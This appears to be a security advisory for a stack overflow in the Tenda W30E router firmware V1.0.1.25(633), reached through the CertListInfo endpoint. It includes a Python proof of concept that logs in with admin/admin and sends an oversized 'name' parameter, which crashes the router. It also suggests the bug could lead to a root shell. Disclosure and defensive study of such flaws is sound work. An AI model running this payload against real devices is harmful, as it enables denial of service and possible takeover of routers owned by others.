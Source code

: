 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/CertListInfo/img/2.png)

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/CertListInfo/img/3.png)

In /goform/CertListInfo, when who is downaction, the name will be spliced into s by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.

## Poc

```python
import requests

cmd = b'name=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/CertListInfo/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell



